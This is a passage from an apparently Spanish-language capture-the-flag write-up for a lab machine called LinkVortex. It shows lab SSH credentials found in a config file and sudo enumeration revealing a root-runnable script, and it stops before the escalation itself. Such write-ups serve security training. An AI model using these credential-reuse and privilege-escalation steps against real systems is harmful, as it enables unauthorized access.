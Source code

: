 ```c
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```


En este encontraremos unas credenciales para bob y las cuales nos permitirán iniciar sesión por el servicio ssh.

```c
bob: fibber-talented-worth
```

![20250904224640.png](20250904224640.png)

Enumerando los privilegios del usuario encontramos que el usuario en cuestión tiene permisos para ejecutar  

```c
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
bob@linkvortex:~$ 
```

# Shell - root

el usuario `bob` puede ejecutar `/opt/ghost/clean_symlink.sh`, el cual tiene el siguiente codigo:
